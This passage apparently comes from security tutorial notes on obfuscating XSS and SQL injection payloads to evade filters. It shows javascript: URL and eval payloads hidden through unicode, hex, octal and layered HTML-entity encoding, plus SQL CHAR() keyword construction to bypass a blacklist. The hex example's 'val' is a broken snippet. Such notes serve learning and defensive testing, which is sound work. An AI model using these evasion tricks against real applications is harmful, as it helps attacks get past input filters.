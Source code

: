 ```javascript
<a href="javascript\u{0000000003a}alert(1)">Click me</a>
```

<br><br>


### Obfuscation via hex escaping

```javascript
val("\x61lert")
```

<br><br>


### Obfuscation via octal escaping

```javascript
eval("\141lert(1)")
```

<br><br>


### Obfuscation via multiple encodings

* It is important to note that you can combine encodings to hide your payloads behind multiple layers of obfuscation. Look at the javascript: URL in the following example:

```javascript
<a href="javascript:&bsol;u0061lert(1)">Click me</a>
```

* Browsers will first HTML decode &bsol;, resulting in a backslash. This has the effect of turning the otherwise arbitrary u0061 characters into the unicode escape \u0061: 

```javascript
<a href="javascript:\u0061lert(1)">Click me</a>
```

* This is then decoded further to form a functioning XSS payload: 

```javascript
<a href="javascript:alert(1)">Click me</a>
```

<br><br>


### Obfuscation via the SQL CHAR() function

* For example, even if SELECT is blacklisted, the following injection initially appears harmless: 

```
CHAR(83)+CHAR(69)+CHAR(76)+CHAR(69)+CHAR(67)+CHAR(84)
```

* However, when this is processed as SQL by the application, it will dynamically construct the SELECT keyword and execute the injected query. 
